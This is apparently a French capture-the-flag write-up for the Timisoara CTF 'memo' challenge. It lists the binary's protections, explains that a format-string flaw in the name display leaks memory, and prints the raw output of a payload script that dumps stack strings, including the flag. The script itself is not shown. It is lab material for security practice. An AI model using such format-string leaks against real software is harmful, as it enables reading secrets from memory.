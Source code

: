 ```yaml
---
layout: post
title: "Timisoara
date: 20 Avril 2018
comments: true
categories: wu
auteur: françois
---
```

```
===== INFOS ===== 
Filename                 memo
File format              ELF64
Architecture             x86-64
Endianess                little endian
Entry point              0x400a00
Loadables segments       2
Sections                 29

NX bit                   enabled
SSP                      disabled
Relro                    partial
RPATH                    no rpath
RUNPATH                  no runpath
PIE                      disabled
```

Le programme présent eune faille format dans l'affichage du nom à la fin de la
partie. Or le flag est lu à un moment en mémoire au début de main.
Un affichage de toutes les chaines pointées par les mots sur la pile donne le 
résultat:

francois@aramis:~/BFF/Timisoara/Memo$ python payload.py  SILENT
 You have a very good memory n? 
 
 H=���s1�H\x83�\xfe�
 
 g5d\xb4\x7f
 Let's play
 Your name? > 
 (null)
 (null)
 \xa0\x8c\h
 (null)
 (null)
 (null)
 UH\x89�H�� H\xbf%\x13@
 UH\x89�H�� H\xbf%\x13@
 UH\x89�H�� H\xbf%\x13@
 1�I��^H\x89�H���PTI���@
 timctf{t0_4rr1ve_4t_th3_s1mple_is_d1ff1cult}
 (null)
 AWAVA\x89\xffAUATL\x8d%\x86\x0c 
 \x89����
 @\x8f\x80=�
 UH\x89�H��
 (null)
 1�I��^H\x89�H���PTI���@
 
 (null)
 (null)
 (null)
 (null)
 (null)
 Eo�%�
 
 �\x1f
 (null)
 (null)
 1�I��^H\x89�H���PTI���@
